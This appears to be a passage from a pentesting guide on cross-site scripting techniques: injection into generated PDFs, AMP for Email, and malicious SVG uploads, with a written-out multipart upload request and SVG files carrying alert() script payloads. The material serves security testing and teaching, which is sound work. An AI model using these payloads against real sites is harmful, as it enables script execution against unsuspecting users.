 ### XSS in dynamic created PDF

If a web page is creating a PDF using user controlled input, you can try to **trick the bot** that is creating the PDF into **executing arbitrary JS code**.\
So, if the **PDF creator bot finds** some kind of **HTML** **tags**, it is going to **interpret** them, and you can **abuse** this behaviour to cause a **Server XSS**.

{% content-ref url="server-side-xss-dynamic-pdf.md" %}
[server-side-xss-dynamic-pdf.md](server-side-xss-dynamic-pdf.md)
{% endcontent-ref %}

If you cannot inject HTML tags it could be worth it to try to **inject PDF data**:

{% content-ref url="pdf-injection.md" %}
[pdf-injection.md](pdf-injection.md)
{% endcontent-ref %}

### XSS in Amp4Email

AMP, aimed at accelerating web page performance on mobile devices, incorporates HTML tags supplemented by JavaScript to ensure functionality with an emphasis on speed and security. It supports a range of components for various features, accessible via [AMP components](https://amp.dev/documentation/components/?format=websites).

The [**AMP for Email**](https://amp.dev/documentation/guides-and-tutorials/learn/email-spec/amp-email-format/) format extends specific AMP components to emails, enabling recipients to interact with content directly within their emails. 

Example [**writeup XSS in Amp4Email in Gmail**](https://adico.me/post/xss-in-gmail-s-amp4email).

### XSS uploading files (svg)

Upload as an image a file like the following one (from [http://ghostlulz.com/xss-svg/](http://ghostlulz.com/xss-svg/)):

```markup
Content-Type: multipart/form-data; boundary=---------------------------232181429808
Content-Length: 574
-----------------------------232181429808
Content-Disposition: form-data; name="img"; filename="img.svg"
Content-Type: image/svg+xml

<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
<svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
   <rect width="300" height="100" style="fill:rgb(0,0,255);stroke-width:3;stroke:rgb(0,0,0)" />
   <script type="text/javascript">
      alert(1);
   </script>
</svg>
-----------------------------232181429808--
```

```markup
<svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
   <script type="text/javascript">alert("XSS")</script>
</svg>
```
